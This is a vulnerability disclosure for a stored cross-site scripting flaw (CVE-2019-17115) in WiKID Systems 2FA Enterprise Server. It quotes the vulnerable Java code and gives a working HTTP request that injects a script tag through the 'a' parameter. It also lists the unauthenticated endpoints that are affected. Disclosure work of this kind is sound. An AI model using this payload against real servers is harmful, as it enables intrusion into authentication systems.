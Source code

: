 An unauthenticated stored cross-site scripting vulnerability, CVE-2019-17115, was identified on `WiKID Systems 2FA Enterprise Server` version `4.2.0-b2047` and earlier.  Submitting invalid values, through one of the affected parameters, will cause an error to be logged and stored as a `rendered_message`; the malicious value is retrieved and displayed through **Logs.jsp**.  The error messages are severe enough to be displayed by default. 

## Patch

* **4.2.0.b2053**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2053-1.noarch.rpm>

## Timeline

* 26 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032`
* 29 Sep 2019 - Issue disclosed to WiKID Systems
* 09 Oct 2019 - Issue confirmed by WiKID Systems, Patch released
* XXX Oct 2019 - Public Disclosure

## Description

Reviewing the source for **Logs.jsp** reveals that `rendered_message` is included, unsanitized, in a string that is constructed and displayed by **Logs.jsp**

~~~
394                 sb.append("<TD class=\"logTableCell\" style=\"white-space:normal;\">")
395                         .append("<a href='./Log.jsp?subString=" <r:b>+ rs.getString("rendered_message") +</r:b> "'>")
396                         .append("<img src='./images/toolFilter.png' alt='' border=\"0px\" width=\"15px\" height=\"15px\"/></a>")
397                         .append(rs.getString("rendered_message").replaceAll("<", "&lt;").replaceAll(">", "&gt;"))
398                         .append("</TD>");
~~~

A review of `wikid-server-enterprise-lib-4.2.0.jar` revealed several instance where parameters are read and passed to the logger.  One  example can be found in `com.wikidsystems.server.InitDevice5AES`:

~~~
70      try {
71        requestAction = Integer.parseInt(request.getParameter("a"));
72        logger.debug("Determined requested action: " + requestAction);
73      }
74      catch (NumberFormatException nfe) {
75        nfe.printStackTrace();
76        logger.error("IO error during registration -- recieved action: " + <r:b>request.getParameter("a")</r:b>, nfe);
77      } 
~~~

Submitting a non-integer value for <var>a</var> will trigger an error and drop into the `catch` block; the <var>a</var> parameter is then included, unsanitized, in the message passed to `logger`, with the severity of **error**.  The following request submits an HTML element as the value for <var>a</var>:

~~~
POST /wikid/servlet/com.wikidsystems.server.InitDevice4AES HTTP/1.1
Host: $RHOST
User-Agent: WiKID J2ME Token
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Payload: dGVzdA==
Connection: close
Upgrade-Insecure-Requests: 1=
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

S=1&a=<r:var>test'><script>alert('InitDevice5AES - A')</script><!--</r:var>
~~~

The JavaScript is executed whenever `Log.jsp` is visited:

![](logs.png)

The JavaScript is then visible in source of the page:

~~~{.html}
<a href="./Log.jsp?subString=IO error during registration phase 1 -- recieved action: <r:var>test"><script>alert('InitDevice5AES - A')</script><!--</r:var>'><img src='./images/toolFilter.png' alt='' 
~~~

The following parameters and endpoints are known to be vulnerable and do not require authentication:

~~~
(1) H parameter
    - /wikid/servlet/com.wikidsystems.server.GetDomainHash
(2) S parameter 
    - /wikid/DomainData 
    - /wikid/PreRegisterLookup 
    - /wikid/PreRegister 
    - /wikid/InitDevice 
    - /wikid/servlet/InitDevice2S 
    - /wikid/servlet/InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice2S 
    - /servlet/com.wikidsystems.server.InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice4S 
    - /wikid/servlet/com.wikidsystems.server.InitDevice4AES 
    - /wikid/servlet/com.wikidsystems.server.InitDevice5AES 
(3) a parameter
    - /wikid/PreRegisterLookup 
    - /wikid/InitDevice 
    - /wikid/servlet/InitDevice2S 
    - /wikid/servlet/InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice2S 
    - /servlet/com.wikidsystems.server.InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice4S 
    - /wikid/servlet/com.wikidsystems.server.InitDevice4AES 
    - /wikid/servlet/com.wikidsystems.server.InitDevice5AES
~~~
